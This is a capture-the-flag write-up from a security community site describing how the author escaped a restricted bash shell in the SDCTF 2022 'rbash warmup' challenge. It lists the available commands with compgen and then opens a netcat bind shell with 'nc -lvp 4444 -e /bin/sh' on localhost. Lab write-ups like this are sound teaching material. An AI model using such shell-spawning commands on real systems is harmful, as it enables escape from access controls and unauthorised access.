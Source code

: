 ```yaml
---
layout: load_md
title: The White Circle | Sdctf 2022 | rbash warmup Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Sdctf 2022
parent: sdctf_2022
category: jail
challenge: rbash warmup
tags: "jail, twh, rbash, escape"
date: 2022-05-10T00:00:00+00:00
last_modified_at: 2022-05-10T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Sdctf 2022</h1>

## rbash warmup
> Solved By : thewhiteh4t

we can use `compgen` to check for available commands

```
compgen -c
```

![](https://i.imgur.com/bLD71b6.png)


another way is to use `echo`


![](https://i.imgur.com/chEZt6C.png)


now the known way of escaping with `nc` is by getting a shell on our “attacker” box but in this challenge we are not allowed to connect to remote machines so we are left with localhost

actually this is more easy…

```
nc -lvp 4444 -e /bin/sh &
```

![](https://i.imgur.com/DmtwlOo.png)


now we can connect to it !


![](https://i.imgur.com/JiBB1By.png)

